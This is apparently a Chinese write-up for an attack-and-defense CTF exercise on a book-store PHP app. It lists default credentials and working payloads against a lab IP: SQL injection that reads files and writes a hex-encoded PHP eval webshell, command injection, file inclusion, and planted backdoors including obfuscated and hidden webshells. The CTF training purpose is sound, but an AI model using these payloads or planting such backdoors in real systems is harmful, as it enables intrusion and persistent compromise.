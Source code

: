 # 2023年12月24日 云曦网络空间安全研究室awd考核题目

交流联系sillybbb666@gmail.com

awd平台使用github开源平台mo-xiaoxi/AWD_CTF_Platform，代码自行修改启动题目

本题目基于2023年国赛西南赛区半决赛book改编

wp：

后台密码：mama123  30e32fcd467fcb2e9910636b99b49a4d171be7f3

数据库密码：root

注意sql注入可直接利用sqlmap --os-shell，导出文件权限默认开启，数据库端口默认开启

sql注入1：http://192.168.153.128:8801/book.php?bookisbn=1

sql注入2：http://192.168.153.128:8801/admin_edit.php?bookisbn=1

```
http://192.168.153.128:8802/book.php?bookisbn=1' union select 1,2,3,4,load_file("/flag"),6,7,8%23
```

```
http://192.168.153.128:8802/book.php?bookisbn=1' 'union select 1,0x3c3f70687020406576616c28245f504f53545b627468636c735d293b3f3e,3,4,5,6,7,8 into outfile '/tmp/sql.php'%23
```

命令执行：http://192.168.153.128:8801/functions/database_functions.php?target=127.0.0.1|cat /flag

任意文件上传：http://192.168.153.128:8801/admin_add.php

任意文件包含：http://192.168.153.128:8801/index.php?file=

任意文件读取：http://192.168.153.128:8801/?file=php://filter/read=convert.base64-encode/resource=/flag

默认后门：http://192.168.153.128:8801/bootstrap/test/bypass_disablefunc.php?cmd=cat%20/flag&outpath=/tmp/xx&sopath=/var/www/html/bootstrap/test/bypass_disablefunc_x64.so

图片马后门：http://192.168.153.128:8801/bootstrap/img/2.jpg

加密后门D盾有时查不出来，需自行排查

加密后门：http://192.168.153.128:8801/obs.php

隐藏后门：http://192.168.153.128:8801/.a.php
